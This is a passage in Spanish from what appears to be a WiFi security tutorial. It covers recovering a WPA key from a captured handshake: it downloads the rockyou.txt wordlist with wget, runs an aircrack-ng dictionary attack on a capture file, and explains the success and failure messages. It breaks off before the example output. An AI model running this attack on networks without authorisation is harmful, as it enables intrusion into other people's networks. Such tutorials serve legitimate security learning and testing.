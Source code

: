![Handshake capturado](png/handshake_cap.png)

## 🔓 Obtención de la Clave

### Preparación del diccionario

```bash
# Descargar rockyou.txt (si no está disponible)
wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
```

### Ataque con Aircrack-ng

```bash
aircrack-ng -w rockyou.txt captura-01.cap
```

### Interpretación de resultados

- **Contraseña encontrada**: Se mostrará con el mensaje "KEY FOUND!"
- **Fallo**: "Passphrase not in dictionary"

Ejemplo de éxito: